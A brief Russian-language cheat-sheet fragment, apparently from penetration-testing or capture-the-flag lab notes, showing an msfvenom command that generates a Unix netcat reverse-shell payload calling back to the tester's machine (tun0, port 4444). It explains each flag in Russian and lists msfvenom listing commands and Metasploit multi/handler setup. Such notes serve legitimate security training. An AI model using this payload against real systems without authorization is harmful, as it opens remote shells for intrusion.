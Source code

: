 ```bash
msfvenom -p cmd/unix/reverse_netcat lhost=tun0 lport=4444 R
```
-p = полезная нагрузка
lhost = IP-адрес нашего локального хоста (это IP-адрес **вашей** машины)
lport = порт для прослушивания (это порт на **вашей** машине)
R = экспорт полезной нагрузки в необработанном формате

msfvenom –list formats
msfvenom -l payloads
use exploit/multi/handler/
set payload <…>

